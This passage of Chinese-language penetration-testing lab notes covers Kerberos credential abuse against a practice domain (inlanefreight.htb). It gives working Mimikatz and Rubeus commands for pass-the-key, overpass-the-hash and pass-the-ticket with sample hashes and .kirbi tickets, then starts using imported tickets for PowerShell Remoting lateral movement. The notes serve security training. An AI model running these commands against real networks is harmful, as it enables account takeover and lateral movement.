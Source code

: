    # Mimikatz - 传递密钥或越过哈希
    c:\tools> mimikatz.exe
    mimikatz # privilege::debug
    mimikatz # sekurlsa::pth /domain:inlanefreight.htb /user:plaintext /ntlm:3f74aa8f08f712f09cd5177b5c1ce50f
    ```
2.  Rubeus -- Pass the Key or OverPass the Hash

    ```shell
    # Rubeus --  Pass the Key or OverPass the Hash
    Rubeus.exe  asktgt /domain:inlanefreight.htb /user:plaintext /aes256:b21c99fc068e3ab2ca789bccbef67de43791fd911c6e15ead25641a8fda3fe60 /nowrap
    ```

    > **注意：** Mimikatz 需要管理权限才能执行传递密钥/越过哈希攻击，而 Rubeus 则不需要

#### 4. PtT

> 现在我们有了一些 Kerberos 票证，我们可以使用它们在环境中横向移动。
>
> 使用 Rubeus，我们执行了 OverPass the Hash 攻击并以 base64 格式检索了票证。 相反，我们可以使用标志 /ptt 将票证（TGT 或 TGS）提交到当前登录会话。

```shell
# Rubeus 通行证
Rubeus.exe asktgt /domain:inlanefreight.htb /user:plaintext /rc4:3f74aa8f08f712f09cd5177b5c1ce50f /ptt
# Rebeud 通过门票，我们可以使用 .kirbi 文件也可以使用 base64加密后的密文
Rubeus.exe ptt /ticket:[0;6c680]-2-0-40e10000-plaintext@krbtgt-inlanefreight.htb.kirbi
 
# Mimikatz - 通过票证
C:\tools> mimikatz.exe
mimikatz # privilege::debug
mimikatz # kerberos::ptt "C:\Users\plaintext\Desktop\Mimikatz\[0;6c680]-2-0-40e10000-plaintext@krbtgt-inlanefreight.htb.kirbi"
```

#### 5. 使用 Powershell Rmoting 传递票证

> [PowerShell Remoting](https://docs.microsoft.com/en-us/powershell/scripting/learn/remoting/running-remote-commands?view=powershell-7.2)允许我们在远程计算机上运行脚本或命令。管理员经常使用 PowerShell Remoting 来管理网络上的远程计算机。启用 PowerShell Remoting 会同时创建 HTTP 和 HTTPS 侦听器。侦听器在 HTTP 标准端口 TCP/5985 和 HTTPS 标准端口 TCP/5986 上运行
>
> 要在远程计算机上创建 PowerShell Remoting 会话，您必须具有管理权限，是 Remote Management Users 组的成员，或者在会话配置中具有明确的 PowerShell Remoting 权限。

**1. Mimikatz - PowerShell Remoting with Pass the Ticket**

要使用 PowerShell Remoting 和 Pass the Ticket，我们可以使用 Mimikatz 导入我们的票证，然后打开 PowerShell 控制台并连接到目标机器。让我们打开一个新的`cmd.exe`并执行 mimikatz.exe，然后使用 导入我们收集的票证`sekurlsa::tickets /export`。将票证导入我们的 cmd.exe 会话后，我们可以从同一个 cmd.exe 启动 PowerShell 命令提示符，并使用该命令`Enter-PSSession`连接到目标机器

```shell
C:\tools> mimikatz.exe
mimikatz # privilege::debug
mimikatz # kerberos::ptt "C:\Users\Administrator.WIN01\Desktop\[0;1812a]-2-0-40e10000-john@krbtgt-INLANEFREIGHT.HTB.kirbi"
mimikatz # exit
c:\tools>powershell
```
